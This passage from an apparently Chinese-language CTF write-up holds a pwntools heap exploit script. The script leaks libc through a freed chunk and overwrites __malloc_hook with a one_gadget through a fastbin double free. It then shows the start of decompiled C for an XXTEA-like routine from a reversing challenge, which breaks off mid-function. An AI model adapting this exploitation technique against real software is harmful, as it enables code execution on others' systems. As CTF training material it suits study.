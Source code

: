 ```
def show(idx): 
    r.sendlineafter(">", "2") 
    r.sendlineafter(":", str(idx))
def delete(idx): 
    r.sendlineafter(">", "4") 
    r.sendlineafter(":", str(idx))

add(0x98, "a\n") 
add(0x68, "a\n") 
add(0x68, "a\n") 
add(0x68, "a\n")
   
delete(0)
show(0) 
r.recvuntil("Note:")
leak = u64(r.recv(6) + "\x00\x00") - 0x68 
base = leak - 0x3c4b10
one_garget = base + 0xf02a4
log.success("Malloc Hook is 0x%x" %leak)
delete(1) 
delete(2)
edit(2, p64(leak - 0x13) + "\n")
add(0x68, "a\n")
add(0x68, "aaa" + p64(one_garget) * 2 + "\n")
delete(4) 
delete(4)
r.interactive()
```
## 六、sign
抽取出程序核心逻辑之后，把核心代码抽出来单独编译运行。
```
#include "defs.h"
#include <string.h>
#include <sys/stat.h>
#include <stdio.h>
#include <stdlib.h>

void sub_4008A6(_DWORD flag_array[], __int32 rand_array[], int flag_len_mod4)
{
  unsigned int v3; // ST3C_4
  unsigned int v4; // eax
  unsigned int v6; // [rsp+28h] [rbp-18h]
  signed int i; // [rsp+2Ch] [rbp-14h]
  unsigned int v8; // [rsp+30h] [rbp-10h]
  unsigned int round_rand; // [rsp+34h] [rbp-Ch]
  int round_rand_byte; // [rsp+38h] [rbp-8h]

  for ( i = 0; i <= 33; ++i )
  {
    v6 = flag_array[flag_len_mod4 - 1];
    v8 = 0;
    round_rand = rand();
    round_rand_byte = (round_rand >> 8) & 7;
    while ( flag_len_mod4 - 1 > v8 )
    {
      v3 = flag_array[v8 + 1];
      flag_array[v8] += ((v6 ^ rand_array[(v8 ^ round_rand_byte) & 7]) + (round_rand ^ v3)) ^ (((v6 >> 5) ^ 4 * v3)
                                             + ((v3 >> 3) ^ 16 * v6));
      v4 = v8++;
      v6 = flag_array[v4];
    }
```